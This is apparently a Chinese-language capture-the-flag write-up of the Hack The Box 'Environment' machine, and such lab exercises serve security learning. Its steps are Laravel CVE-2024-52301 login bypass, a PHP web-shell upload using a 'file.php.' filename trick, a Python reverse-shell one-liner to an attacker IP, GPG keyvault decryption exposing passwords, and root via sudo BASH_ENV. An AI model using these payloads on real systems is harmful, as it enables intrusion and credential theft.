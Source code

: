 # HTB Environment


## 前言
一个很有意思的靶机，HTB中等难度

## 外网打点
按照惯例nmap+dirsearch
```
nmap -sC -sV 10.10.11.67        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 20:35 CST
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.63% done; ETC: 20:38 (0:01:29 remaining)
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 54.81% done; ETC: 20:39 (0:01:50 remaining)
Stats: 0:03:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 61.43% done; ETC: 20:40 (0:01:54 remaining)
Stats: 0:05:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.51% done; ETC: 20:42 (0:01:19 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.33% done; ETC: 20:43 (0:00:25 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.34% done; ETC: 20:43 (0:00:25 remaining)
Nmap scan report for 10.10.11.67
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 python dirsearch.py -u http://environment.htb -w /Users/zsm/CTF/tool/kali_word/dirb/wordlists/big.txt     
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 20469

Target: http://environment.htb/

[20:45:45] Scanning:
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:52:23] 200 -     0B - /favicon.ico
[20:55:04] 200 -    2KB - /login
[20:55:04] 302 -   358B - /logout  ->  http://environment.htb/login
[20:55:10] 405 -  244KB - /mailing
[20:58:33] 200 -    24B - /robots.txt
[21:00:09] 301 -   169B - /storage  ->  http://environment.htb/storage/
[21:01:19] 200 -    2KB - /up
[21:01:20] 405 -  244KB - /upload
[21:01:39] 301 -   169B - /vendor  ->  http://environment.htb/vendor/

Task Completed
```

有个很明显的登录页面，进去看看，随便输入试试
![image.png](https://www.helloimg.com/i/2025/06/02/683d46f115717.png)
有报错回显，但是目前不知道有什么可以打的地方  

`mailing`这个也可以访问，并且看见`PHP 8.2.28 — Laravel 11.30.0`，在登录去打[CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301)，并且这个页面好像可以泄漏部分源码的，但是我没怎么看，直接按照cve的打了  

成功登录之后发现有图片上传的地方，传个马上去，注意`*.php`的话访问只会下载，所以要`*.php.`
```
------WebKitFormBoundaryILrUEQYf3y8xqp85
Content-Disposition: form-data; name="upload"; filename="zsm.php."
Content-Type: image/png
```
成功拿到路径
```
{"url":"http:\/\/environment.htb\/storage\/files\/zsm.php","uploaded":"http:\/\/environment.htb\/storage\/files\/zsm.php"}
```
这个马是可以用的，但是不知道为什么`bash`弹一直出不来，我就直接用python弹了
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.39",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

可以拿到user.txt
```
Connection from 10.10.11.67:44294
www-data@environment:~/app/storage/app/public/files$ ls
ls
bethany.png  hish.png  jono.png
www-data@environment:~/app/storage/app/public/files$ cd ~
cd ~
www-data@environment:~$ ls
ls
app  html
www-data@environment:~$ cd /home
cd /home
www-data@environment:/home$ ls
ls
hish
www-data@environment:/home$ cd hish
cd hish
www-data@environment:/home/hish$ ls
ls
backup	root.sh  user.txt
```

## 提权
先提权到用户`hish`，在`backup`里面发现好东西
```
www-data@environment:/home/hish/backup$ ls
ls
keyvault.gpg
```
有个gpg文件，找了个通用的方法
```
# 1. 拷贝 hish 用户的密钥目录
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. 设置权限
chmod -R 700 /tmp/mygnupg

# 3. 确认是否存在私钥
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. 解密 keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg

www-data@environment:~$ ls /tmp
ls /tmp
message.txt
mygnupg
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-logind.service-dwJgyf
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-timesyncd.service-LkFYou
vmware-root_499-2117352874
www-data@environment:~$ cat /tmp/message.txt
cat /tmp/message.txt
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
www-data@environment:~$ su hish
su hish
Password: marineSPm@ster!!
```
这个时候就是用户权限了，先正常信息收集
```
hish@environment:/var/www$ sudo -l
sudo -l
[sudo] password for hish: marineSPm@ster!!

Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
其中可以看到`env_keep`保留了`ENV`和`BASH_ENV`两个环境变量因此可以用于绕过
```
hish@environment:~$ echo 'bash -p' > exp.sh
echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh
chmod +x exp.sh
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
root@environment:/home/hish# id
id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/*
cat /root/*
1ec8b9b660747555f3ee577fc32f3250
cat: /root/scripts: Is a directory
```

## 总结
知道cve很关键，感觉有必要屯一点cve的poc了，pgp文件很关键，要知道怎么做，最后就是环境变量的提权
